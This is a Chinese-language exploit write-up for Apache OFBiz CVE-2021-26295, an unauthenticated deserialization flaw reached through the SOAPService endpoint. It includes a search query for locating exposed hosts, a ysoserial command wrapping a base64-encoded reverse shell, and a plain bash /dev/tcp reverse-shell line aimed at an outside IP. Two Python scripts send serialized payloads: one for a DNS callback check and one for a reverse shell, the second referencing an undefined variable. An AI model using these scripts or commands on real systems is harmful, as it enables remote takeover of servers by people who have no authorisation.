

# Apache OFBiz RMI 反序列化漏洞 CVE-2021-26295

## 漏洞描述

OFBiz 是基于 Java 的 Web 框架，包括实体引擎，服务引擎和基于小部件的 UI。

近日，Apache OFBiz 官方发布安全更新。Apache OFBiz 存在 RMI 反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管 Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

## 漏洞影响

```
Apache OFBiz < 17.12.06
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

```plain
docker run -d -p 8000:8080 -p 8443:8443  opensourceknight/ofbiz
```

## 漏洞复现

使用文章目录中的 POC 脚本 验证 Dnslog



反弹 shell 使用 ROME 反序列化链就行了

```plain
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvLyA8JjEn}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/81.68.139.186/9999 <&1'   base64加密写入然后执行命令
```


然后把数据填入下面的 反弹 shell 脚本中的 Hex_data 参数中运行脚本即可反弹 shell


## 漏洞 POC

- 需要将 POC 放在与 ysoserial.jar 同一目录 一个为 dnslog 检测，另一个为反弹 shell

```python
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def trans(s):
    return "%s" % ''.join('%.2x' % x for x in s)

def POC_1(target_url, Dnslog):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', "URLDNS", Dnslog], stdout=subprocess.PIPE)
    data = popen.stdout.read()
    hex_data = trans(data)
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 Dnslog 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

- 反弹 shell 脚本

```python
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mHex_data    >>> 在文件中修改                                      \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Dnslog):
    # java -jar ysoserial.jar ROME  "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvLyA8JjEn}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'
    hex_data = "aced0xxxxxxxxxxxxxxxxxxxxxx678"
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 监听地址 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, Dnslog)
```
